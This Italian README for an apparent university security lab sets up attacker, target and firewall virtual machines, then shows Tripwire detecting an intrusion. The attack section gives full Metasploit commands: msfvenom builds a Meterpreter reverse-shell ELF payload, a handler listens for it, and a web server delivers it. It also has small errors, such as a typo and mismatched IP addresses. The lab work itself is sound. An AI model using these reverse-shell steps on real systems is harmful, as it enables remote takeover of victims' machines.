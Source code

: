 
# ProjectAdvancedCybersecurity
Il seguente repository ha lo scopo di illustrare come configurare una rete di macchine virtuali al fine di testare alcuni software legati alla sicurezza informatica. L' architettura viene riportata in figura.

![Architettura](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Screened-Network.drawio.png)

Le macchine virtuali sono le seguenti: 
 - **Target**: Ubuntu 22.04.2 LTS (con installato *Tripwire*)
 - **Attacker**: Kali 2023.1 (con installato *python3*)
 - **Firewall**: Pfsense 2.6.0 (con i pacchetti *Squid* e *Snort*)

Di seguito verranno esplicitati tutti i passi sia per simulare uno scenario di attacco a cui la nostra infrastruttura dovrà rispondere.
> Nota: nel repository si trovano le macchine già configurate (potrebbero esserci delle differenze nell'assegnazione degli indirizzi IP alle varie interfacce di rete o in ulteriori parametri)

***mettere configurazione adpter 

## Kali Attacker
Per effettuare l'attacco la macchina kali necessita di avere installato python3. 
```bash
sudo  apt update &&  sudo  apt upgrade -y
```
```bash
sudo apt install python3
```
Fatto ciò  si può procedere ad effettuare un attacco di reverse shell TCP verso la macchina target tramite *Metasploit*. Aprire 4 terminali:

 1. **Terminale**: Ottenere indirizzo ip dell'interfaccia di rete della macchina kali 
 ```bash
ifconfig
```
 
 2. **Terminale**: Creare il pacchetto malevolo (eseguibile)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.18 LPORT=4444 -f elf -o Desktop/payloads/shell-x86.elf
```
Analizziamo i vari parametri:

-   _msfvenom_: il nome del programma principale, metasploit
-   _-p_: il payload da inserire. Può essere uno scritto da noi o, più comodamente, uno già presente in Metasploit.
-   _LHOST_: l'indirizzo IP al quale l'app infettata si connetterà. Può essere un indirizzo locale come un indirizzo esterno.
-   _LPORT_: la porta da utilizzare. Quella di default è proprio la 4444.
-  _-f_: formato del pacchetto
-   _-o_: il percorso dove andremo a salvare l'applicazione ricompilata, contenente il payload.

 3. **Terminale**: Ora dobbiamo essere pronti per accettare la connessione, quindi prepariamo una sessione attraverso metasplot.
```bash
msfconsle
```
Una volta aperta la console:
```bash
msf6> use multi/handler
msf6 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.18
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse handler on 192.168.1.18:4444
[*] Starting the payload handler...
```
Una volta che la vittima avrà installato ed eseguito il file *.elf*  verrà aperta una sessione con una reverse shell che permetterà alla macchina kali infettare il target. Come esempio è stato eseguito un cambio di permessi ad una cartella
 ```bash
meterpreter > sudo chmod o+x ./DirectoryTarget
```

 4. **Terminale**: Per far ricevere il pacchetto alla macchina target viene esposto un web server al quale sarà possibile scaricare il file *shell-x86.elf*. (prima entrare nella cartella in cui è il file)
```bash
cd Desktop/payloads
sudo python -m http.server 80
```

## Ubuntu Target
Nella macchina target la prima cosa da fare è installare Tripwire che ci permetterà di rilevare l'attacco compiuto dall'attaccante
```bash
sudo apt-get update
sudo apt-get install tripwire
```
Lasciando inalterate le impostazioni di configurazione di default, Tripwire ti chiederà di creare due chiavi per proteggere i suoi file di configurazione.

-   **site key** : questa chiave viene utilizzata per proteggere i file di configurazione. Dobbiamo assicurarci che i file di configurazione non vengano modificati, altrimenti non ci si può fidare del nostro intero sistema di rilevamento. 
    
-   **local key** : questa chiave viene utilizzata su ogni macchina per eseguire i binari. Ciò è necessario per garantire che i nostri file binari non vengano eseguiti senza il nostro consenso.

>  Nota: assicurati di scegliere passphrase non facilmente deducibili

 1.Inizializzare il database 
----------

Ora possiamo inizializzare il database che tripwire utilizzerà per convalidare il nostro sistema. Questo utilizza il file delle policy e controlla i punti specificati all'interno. Poiché questo file non è stato ancora personalizzato per il nostro sistema, avremo molti avvisi, falsi positivi ed errori. Useremo questi come riferimento per mettere a punto il nostro file di configurazione. Il modo di base per inizializzare il database è eseguendo:

```bash
sudo tripwire --init
```

Questo creerà il nostro file di database e genererà alcuni *warnings* che dobbiamo regolare nella configurazione.  Possiamo eseguire il comando `check` e posizionare i file elencati in un file chiamato `test_results`nella nostra directory di configurazione di tripwire:

```bash
sudo sh -c 'tripwire --check | grep Filename > test_results'
```

Se esaminiamo questo file, dovremmo vedere voci simili a questa:

```bash
less /etc/tripwire/test_results
```
```bash
Filename: /etc/rc.boot
Filename: /root/mail
Filename: /root/Mail
Filename: /root/.xsession-errors
. . .
```
2.Configurazione file delle policy 
----------

Ora che abbiamo un elenco di file che attivano tripwire, possiamo esaminare il nostro file di policy e modificarlo per eliminare questi falsi positivi. Apri il file *twpol.txt* nel tuo editor con i privilegi di root:
```bash
sudo nano /etc/tripwire/twpol.txt
```
Eseguire una ricerca per ciascuno dei file restituiti in`test_results`. Commenta tutte le righe che trovi corrispondenti. Fatto ciò, crea una nuova regola, dandogli un nome e un livello di gravità: `severity = $(SIG_HI)`.  Nel corpo verranno indicate le directory o i file a quali verrà applicata la regola che in questo caso è `$(SEC_INVARIANT) (recurse = 0)`; ossia non sono tollerati cambi di permessi o di proprietà nel primo livello della directory.
![rule](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Tripwire%20rule.png)

Salva e chiudi il file al termine delle modifiche. Ora che il nostro file è configurato, dobbiamo implementarlo ricreando il file di policy crittografato che tripwire effettivamente legge:

```bash
sudo twadmin -m P /etc/tripwire/twpol.txt
```
Dopo che questo è stato creato, dobbiamo reinizializzare il database per implementare la nostra politica:

```bash
sudo tripwire --init
```
```
Please enter your local passphrase:
Parsing policy file: /etc/tripwire/tw.pol
Generating the database...
*** Processing Unix File System ***
Wrote database file: /var/lib/tripwire/tripit.twd
The database was successfully generated.
```
3.Predisposizione all'attacco
----------
Per far si che la macchina target subisca l'attacco è necessario che scaricare l'eseguibile esposto dalla macchina kali attraverso il web server. Dunque, collegandosi all'indirizzo `192.128.1.28/ 80` è possibile scaricare il file ed eseguirlo tramite i seguenti comandi: 
```bash
sudo chmod +x ./shell-x86.elf ##Concediamo diritti per esecuzione
./shell-x86.elf ##Esecuzione
```
Fatto ciò la macchina sarà infetta. Una volta avvenuto l'attacco lanciando il comando 
```bash
sudo tripwire --check 
```
inizierà la procedura di verifica la quale resituira il seguente report di output
![report](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/img/Tripwire%20detect.png)
## Autori

- [Mattia Scuriatti](https://github.com/Me77y99)
- [Gatti Giada](https://github.com/S1090231)

